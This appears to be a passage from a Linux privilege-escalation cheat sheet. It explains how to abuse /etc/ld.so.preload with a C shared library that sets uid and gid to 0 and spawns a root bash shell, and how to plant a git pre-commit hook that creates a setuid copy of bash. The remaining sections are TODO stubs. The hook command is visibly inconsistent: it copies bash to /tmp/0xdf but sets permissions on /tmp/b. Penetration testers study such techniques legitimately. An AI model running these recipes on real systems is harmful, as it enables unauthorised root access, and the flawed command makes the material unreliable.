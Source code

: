 ### /etc/ld.so.preload

This file behaves like `LD_PRELOAD` env variable but it also works in SUID binaries.
If you can create it or modify it, you can just add a path to a library that will be loaded with each executed binary.

For example: `echo "/tmp/pe.so" > /etc/ld.so.preload`

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unlink("/etc/ld.so.preload");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
//cd /tmp
//gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```

### Git hooks

 are scripts that are run on various events in a git repository like when a commit is created, a merge... So if a privileged script or user is performing this actions frequently and it's possible to write in the `.git` folder, this can be used to privesc.

For example, It's possible to generate a script in a git repo in `.git/hooks` so it's always executed when a new commit is created:

```
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/b' > pre-commit
chmod +x pre-commit
```

### Cron & Time files

TODO

### Service & Socket files

TODO

### binfmt_misc

The file located in `/proc/sys/fs/binfmt_misc` indicates which binary should execute whic type of files. TODO: check the requirements to abuse this to execute a rev shell when a common file type is open.